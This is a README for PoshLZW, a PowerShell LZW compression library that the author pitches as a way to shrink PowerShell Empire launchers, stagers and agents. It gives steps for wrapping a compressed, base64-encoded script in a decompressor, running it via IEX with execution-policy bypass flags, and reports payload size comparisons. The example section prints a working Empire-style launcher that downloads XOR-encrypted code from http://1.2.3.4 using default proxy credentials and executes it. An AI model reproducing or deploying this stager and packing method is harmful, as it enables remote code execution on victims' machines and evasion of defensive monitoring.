 License
-------

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 

Version 2, December 2004 
                    
Copyright (C) 2004 Sam Hocevar <sam@hocevar.net> 

Everyone is permitted to copy and distribute verbatim or modified 

copies of this license document, and changing it is allowed as long 

as the name is changed. 

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 
           
TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION 

0. You just DO WHAT THE FUCK YOU WANT TO.



Powershell developper ?
-----------------------
I'm far away from a real Powershell developper, so be free to propose improvements and code size reduction tricks.


PoshLZW
--------
`PowerShell LZW` is a LZW compression/decompression library for Powershell 2.0


Powershell 2.0 ?
----------------
By default, if you wanna have compatility you'll have to use v2.0, as it's the case for PowerShell Empire.


iCodingSize !!?
---------------
LZW work by building a ephemeral dictionnary, feeded then by following bytes. The main idea is to encode bytes not on 8-bits but on iCodingSize-bits (9 to 15).

Why min at 9 ? 'cause less would mean size growth.

Why max at 15 ? Well... why not ;-)

So for example, 4-bytes can be encoded only on 9 bits (if you choose an iCodingSize value of 9 and if it's in the dictionnary).

This value is also the maximum size of the dictionnary : 2^iCodingSize-1.

It's stored in the output at index 0, encoded on 8-bits (a normal byte).


Five functions
---------------
Five Long functions :
* Bits-Shift : a simple bits shifting function that don't fucking exists in Powershell 2 !!?
* Bits-Read : read n-bits from an array of Bytes, at a certain position
* Bits-Write : write n-bits to an array of Bytes, at a certain position
* LZWCompress : Compress
* LZWDecompress : Decompress

These too long functions have been manually shortened to save space:
* bs (for Bits-Shift), 62 bytes long
* br (for Bits-Read), 225 bytes long
* bw (for Bits-Write), 247 bytes long
* lzwc (for LZWCompress), 395 bytes long
* lzwd (for LZWDecompress), 345 bytes long

Could certainly be optimized ;-)


Powershell script intended to be executed
-----------------------------------------
To use LZW it's simple :

1/ Declare functions (or import-module PoshLZW.ps1)

```
$ PS> $m_=[math];
$ PS > function bs{...
$ PS > function bw{...
$ PS > function lzwc{...
```


2/ compress your powershell script :

```
$ PS> $MyScript = "write-host 'Hello World';";
$ PS > $lz = lzwc $MyScript 10;
```

3/ encode the compressed script in base64
```
$ PS > $lz64 = [convert]::ToBase64String($lz);
```


4/ Build the payload with the overhead :
```
$ PS> $payload = '$m_=[math];';
$ PS > $payload+= 'function bs{...' + 'function br{...' + 'function lzwd{...';
$ PS > $payload+= 'IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lz64+'"))))';
```

Then you can execute the payload with #>powershell -nop -noni -ex bypass -c here-the-payload.

But take care about the command line size ;-)



Good rate ?
----------------
Here you'll find a comparison table of different payloads.
* Text : normal ps1 file/payload, without optimisation.
* H : overhead of 701 bytes (LZWDecompress, Bits-Read, Bits-Shift and IEX).
* 9-15 : iCodingSize, meaning encoding size in bits and also dictionnary size.
A way to use compression could be to run "powershell -c H+B64(LZW(T,9))"

 
|                      | Launcher | Stager |  Agent  |
|---------------------:|---------:|-------:|--------:|
|       Text as T      |   418    |  4 909 |  44 041 |
|           B64(T)     | 1 116    | 13 092 | 117 444 |
|           LZW(T,9)   |   387    |  3 740 |  27 878 |
|     H+B64(LZW(T,9)   | 2 051    | 13 877 |  97 516 |
| B64(H+B64(LZW(T,9))  | 5 472    | 37 008 | 260 044 |
|           LZW(T,10)  |   426    |  3 260 |  24 934 |
|     H+B64(LZW(T,10)  | 2 112    | 12 127 |  85 885 |
| B64(H+B64(LZW(T,10)) | 5 632    | 32 340 | 229 028 |
|           LZW(T,11)  |   469    |  3 145 |  20 474 |
|     H+B64(LZW(T,11)  | 2 261    |`11 576`|  72 444 |
| B64(H+B64(LZW(T,11)) | 6 032    | 30 872 | 193 184 |
|           LZW(T,12)  |   511    |  3 373 |  18 312 |
|     H+B64(LZW(T,12)  | 2 237    | 11 600 |  63 583 |
| B64(H+B64(LZW(T,12)) | 5 968    | 30 936 | 169 556 |
|           LZW(T,13)  |   554    |  3 654 |  16 589 |
|     H+B64(LZW(T,13)  | 2 426    | 12 788 | `58 306`|
| B64(H+B64(LZW(T,13)) | 6 472    | 34 104 | 155 484 |
|           LZW(T,14)  |   596    |  3 935 |  17 545 |
|     H+B64(LZW(T,14)  | 2 481    | 13 243 |  59 852 |
| B64(H+B64(LZW(T,14)) | 6 616    | 35 316 | 159 608 |
|           LZW(T,15)  |   639    |  4 216 |  18 798 |
|     H+B64(LZW(T,15)  | 2 611    | 13 944 |  63 437 |
| B64(H+B64(LZW(T,15)) | 6 964    | 37 184 | 169 168 |



Example
-------

Stats
```
$ PS > $text = '$Wc=NEW-ObjEcT SYStEM.Net.WEBCliENT;$u="Test/5.0 (Windows NT 5.1; Trident/1.0;) like Gecko";$wc.HeADerS.ADD("User-Agent",$u);$wc.ProXY = [SYSTem.Net.WEBREQuEsT]::DEFAulTWebPROXY;$WC.PRoxy.CReDEnTIaLS = [SYStEM.NET.CRedEnTiALCACHe]::DEFAulTNetwORKCredenTiaLs;$K="aaaaaaaabbbbbbbbcccccccceeeeeeee";$I=0;[chAr[]]$b=([CHAr[]]($wC.DowNlOaDSTRing("http://1.2.3.4:80/index.asp")))|%{$_-BXoR$k[$i++%$k.LeNgTH]};IEX ($B-jOIn"")';
$ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("stager.ps1"));
$ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("agent.ps1"));
$ PS > write-host "|                 Text   |" $text.length
$ PS > write-host "|             B64(Text)  |" ([Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))).length
$ PS > foreach ($i in 9..15){
$ PS > 	$lzw = lzwc $text $i;
$ PS > 	write-host "|           LZW(T,$i)  |" $lzw.length;
$ PS > 	$64lzw = [convert]::ToBase64String($lzw);
$ PS > 	$overhead='$m_=[math];function bs{param($v,$s)return $m_::Floor($v*$m_::Pow(2,-$s))}function br{param($o,$c,$a)$p=$i=$e=0;$j=$m_::floor(($t=$a.value)*$c/8);$s=($r=8-(($t*$c)%8))-$c;$b=$m_::Pow(2,$c)-1;while($e-lt$c){$p=$p-bor((bs $o[$j+$i] $s)-band$b);$e+=$r;$r=$m_::max($r,8);$s+=8;$i++}$a.value++;return $p}';
$ PS > function lzwd{param($p)$a=$j=0;$v=@();$e=$o="";$c=$p[0];$p=$p[1..$p.length];foreach($i in 0..255){$v+=[string]([char]$i)}$o+=($w=[string]$v[($j=br $p $c ([ref]$a))]);while([math]::floor($a*$c/8)-lt($p.length-1)){$l=$v.count;$j=br $p $c ([ref]$a);$o+=$v[$j];if($j-lt$l){$e=[string]$v[$j]}elseif($j-eq$l){$e=$w+$w[0]}$v+=$w+$e[0];$w=$e}return $o;}IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lzw+'"))))';
$ PS > 	write-host "|     H+B64(LZW(T,$i)  |" $overhead.length;
$ PS > 	$b64hz = [convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($overhead));
$ PS > 	write-host "| B64(H+B64(LZW(T,$i)) |" $b64hz.length;
$ PS > }
```

Last word ?
-----------

````
         ///\\\  ( Have Fun )
        ( ^  ^ ) /
      __(  __  )__
     / _ `----' _ \
     \__\   _   |__\
      (..) _| _ (..)
       |____(___|     Mynameisv_ 2016
_ __ _ (____)____) _ _________________________________ _'
````